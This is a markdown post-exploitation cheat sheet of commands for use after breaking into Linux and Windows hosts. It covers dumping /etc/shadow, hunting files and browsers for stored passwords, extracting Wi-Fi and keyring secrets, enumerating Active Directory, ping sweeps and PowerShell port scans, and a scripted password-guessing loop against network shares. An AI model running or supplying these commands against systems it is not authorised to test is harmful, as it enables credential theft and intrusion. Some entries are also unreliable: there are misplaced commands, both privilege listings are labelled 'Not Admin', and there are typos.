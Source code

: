```yaml
---
title: Landing Commands
category: Post-Exploitation
order: 2
---
```


> **Linux**

Kernal version  | <code> uname -r </code>
Distro Version | <code>cat /etc/issue </code>
Determine Account | <code> whoami </code>
Add User | <code> useradd -d [home_dir] [login name] </code>
Privilidges |<code>  id </code>
Network Activity | <code> netstat -natu </code>
ARP Cache | <code> arp -a </code>
Routing Table | <code> netstat -nr </code>
Lockout Policy | <code> grep tally /etc/pam.d/* <br> grep tally /etc/pam.conf" </code>
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
Passwords and Users | <code> cat etc/passwd && cat etc/shadow </code>
Wifi Password | <code> /etc/NetworkManager/system-connections </code>
Gnome Keyring | <code> ~/.gnome/keyrings </code>
Find Interesting Files | <code> wmic DATAFILE where "drive='C:' AND Name like '%password%'" GET Name,readable,size /VALUE </code>
Find Interesting File Names and Perms | <code> find / -iname "shadow*" -perm /o+r -ls 2>/dev/null </code>
Find Interesting Content Files 1 | <code> grep -irIL pass /opt/ 2>/dev/null </code>
Find Interesting Content Files 2 | <code> find /home -iname "*.txt" 2>/dev/null -exec grep -c 2 -li  'pass' {} \; </code>
Find Interesting Content Regex | <code> find /home -iname "*.txt" 2>/dev/null -exec egrep -li "^.+@.+$" {} \; </code>

> **Local Windows Accounts and Processes**

Determine Account | <code> whoami, set username </code>
Determin OS Information | <code> wmic os get Caption <code>
Determine OS Information 2 | <code> wmic computersystem LIST full </code>
Anti-Virus info | <code> wmic /namespace:\\root\securitycenter2 path antivirusproduct </code>
Patches Installed | <code> wmic qfe list brief </code>
Processes | <code> tasklist /V /FO CSV </code>
Services | <code> sc query </code>
List Users | <code> net user <br> wmic useraccount list brief </code>
List Groups | <code> net localgroup [/domain] </code> 
List Administrators | <code> net localgroup administrators [/domain] </code> 
List Password and Lockout Policy | <code> net accounts or net accounts /domain </code> 
Find Public IP Address | <code> curl icanhazip.com <br> nslookup myip.opendns.com resolver1.opendns.com </code>
List Groups for Account | <code> DSQUERY USER -samid loginname | DSGET USER -memberof -expand </code>
Inventory Software | <code> dir /s  c:\Program Files > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt <br> set path </code>
Find Interesting Files | <code> ls -r -file -filter pass* </code>
Find Interesting Info in Files | <code> ls -r c:\ -file | % {select-string -path $_ -pattern mypassword} </code>

If using meterpreter run getprivs, you are an admin if it looks like this:

==============<br>
Not Admin<br>
==============<br>
  SeShutdownPrivilege<br>
  SeChangeNotifyPrivilege<br>
  SeUndockPrivilege<br>

==============<br>
Not Admin<br>
==============<br>
  SeDebugPrivilege<br>
  SeIncreaseQuotaPrivilege<br>
  SeSecurityPrivilege<br>
  SeTakeOwnershipPrivilege<br>
  SeLoadDriverPrivilege<br>
  SeSystemProfilePrivilege<br>
  SeSystemtimePrivilege<br>
  SeProfileSingleProcessPrivilege<br>
  SeIncreaseBasePriorityPrivilege<br>
  SeCreatePagefilePrivilege<br>
  SeBackupPrivilege<br>
  SeRestorePrivilege<br>
  SeShutdownPrivilege<br>
  SeSystemEnvironmentPrivilege<br>
  SeChangeNotifyPrivilege<br>
  SeRemoteShutdownPrivilege<br>
  SeUndockPrivilege<br>
  SeManageVolumePrivilege<br>

> **Windows Domain  Enumeration**

List Domain Info | <code> wmic NTDOMAIN GET DomainControllerAddress,DomainName,Roles /VALUE </code>
MSF Domain Info | <code> run post/windows/gather/enum_domain </code>
List Domain User Info | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user where "ds_samaccountname='testAccount'" GET  </code>
List All Users | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_user GET ds_samaccountname </code>
List All Groups | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group GET ds_samaccountname </code>
List Members of Group (e.g., domain admin) | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_group where "ds_samaccountname='Domain Admins'" Get ds_member /Value </code>
List all computers on domain | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname </code>
List all computers on domain | <code> wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_dnshostname </code>
List Domain Controllers | <code> NETDOM QUERY /D:MyDomain DC </code>
List Domain Controllers | <code> DSQUERY Server </code>
List Member Servers | <code> NETDOM QUERY /D:MyDomain SERVER </code>
List all Workstations | <code> NETDOM QUERY /D:MyDomain WORKSTATION </code>
List all shares for a system | <code> net view [system] /ALL [/Domain] </code>

> **Windows Network Enumeration**

DNS Cache | <code> ipconfig /displaydns </code>
Arp Cache | <code> arp -a </code>
Network Activity | <code> netstat -na | find "ESTABLISHED" </code>
Routing Table | <code> netstat -nr  </code>
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code> 
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code> 
PowerShell port scanner | <code> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null </code>
Scan a range of IPs for a single port | <code> foreach ($ip in 1..20) {Test-NetConnection -Port 80 -InformationLevel "Detailed" 192.168.1.$ip} </code>
PS IP range & port range scanner | <code> 1..20 | % { $a = $_; 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.$a",$_)) "Port $_ is open!"} 2>$null} </code>
PS test egress filtering | <code> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("allports.exposed",$_)) "Port $_ is open!" } 2>$null </code>
Password Guess | <code> for /f %i in (password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt </code> 

> **Browsers**

Finding user browser history and passwords in Firefox history:
{% highlight bash %}
sqlite3 ~/pilfered-firefox-profile/gn2uzbr6.Default\ User/places.sqlite sqlite> select * from moz_places where url like "%@%";

Cd ~/.mozilla/firefox/g4iiysbk.default/Cache
Strings [filename] | grep [file eg php]
{% endhighlight %}

Chrome: 
* [Browser Gather](https://github.com/sekirkity/BrowserGather)
* [ChromeDump](https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-ChromeDump.ps1)
* [ChromeDump](https://github.com/xorrior/RandomPS-Scripts/blob/master/Get-ChromeDump.ps1)

> **Survey**

* [Clicky](https://gist.github.com/leechristensen/10999daab91b3b34108a9e7201838452)
* [WLAN keys](https://github.com/samratashok/nishang/blob/master/Gather/Get-WLAN-Keys.ps1)
* [SessionGopher](https://github.com/fireeye/SessionGopher)


> **Interesting Files**

Passwords.txt	| Users often create password files as reminders.
wp-config.php | 	WordPress configuration file. Stores database passwords.
key3.db / logins.json	| Password file for the Firefox web browser.
<custom>.sh	| Administrators often store plaintext passwords in automation scripts
fstab	| The fstab may contain passwords to mounted samba shares
*.pst	| Users may email passwords around. These can often be found in .pst files
  
> **Regex Library**

[regexlib](http://www.regexlib.com/)

